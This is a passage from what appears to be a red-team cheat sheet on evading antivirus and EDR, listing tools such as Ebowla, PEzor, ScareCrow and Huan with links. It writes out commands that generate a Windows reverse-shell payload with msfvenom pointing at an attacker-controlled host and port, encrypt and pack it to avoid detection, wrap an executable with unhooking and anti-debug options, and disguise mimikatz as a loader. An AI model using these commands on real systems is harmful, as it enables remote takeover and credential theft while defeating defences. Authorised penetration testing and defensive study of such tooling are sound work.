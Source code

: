 ```
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine python-dev -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.13.37 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```



### PEzor

* [https://github.com/phra/PEzor](https://github.com/phra/PEzor)

Wrap executable into PEzor:

```
$ bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 evil.exe -z 2
```



### inceptor

* [https://klezvirus.github.io/RedTeaming/AV_Evasion/CodeExeNewDotNet/](https://klezvirus.github.io/RedTeaming/AV_Evasion/CodeExeNewDotNet/)
* [https://github.com/klezVirus/inceptor](https://github.com/klezVirus/inceptor)



### ScareCrow

* [https://github.com/optiv/ScareCrow](https://github.com/optiv/ScareCrow)
* [https://www.grahamhelton.com/blog/scarecrow/](https://www.grahamhelton.com/blog/scarecrow/)
* [https://adamsvoboda.net/evading-edr-with-scarecrow/](https://adamsvoboda.net/evading-edr-with-scarecrow/)



### Huan

* [https://github.com/frkngksl/Huan](https://github.com/frkngksl/Huan)

```
Cmd > .\Huan.exe mimikatz.exe mimiLoader.exe
Cmd > .\mimiLoader.exe
```



### charlotte

* [https://github.com/9emin1/charlotte](https://github.com/9emin1/charlotte)
* [https://github.com/cepxeo/dll4shell](https://github.com/cepxeo/dll4shell)
